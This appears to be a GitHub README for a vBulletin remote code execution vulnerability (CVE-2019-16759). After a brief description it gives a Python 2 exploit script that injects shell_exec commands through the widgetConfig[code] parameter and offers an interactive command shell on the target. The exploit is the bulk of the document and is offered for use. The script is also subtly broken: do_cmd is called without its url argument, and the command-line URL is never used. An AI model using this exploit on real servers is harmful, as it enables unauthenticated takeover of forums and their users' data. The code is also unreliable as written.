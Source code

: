 VBulletin RCE (CVE-2019-16759)
==============================

There is a [vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16759)
in VBulletin from version 5.0.0 to 5.5.4, allowing unauthenticated user to
execute commands on the system (RCE) via `widgetConfig[code]` parameter in an
`ajax/render/widget_php` routestring request.


## POC
```python
import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <vBulletin URL>" % sys.argv[0])


def do_cmd(url, cmd):
    params = {
        'routestring': 'ajax/render/widget_php',
        'widgetConfig[code]': 'echo shell_exec(\'' + cmd + '\'); exit;'
    }
    r = requests.post(url=url, data=params)

    if r.status_code == 200:
        return r.text
    else:
        raise Exception('Cannot exploit target')


while True:
    try:
        cmd = raw_input("> ")
        output = do_cmd(cmd)
        print(output)
    except KeyboardInterrupt:
        sys.exit("Closing shell...")
    except Exception, e:
        sys.exit(str(e))
```
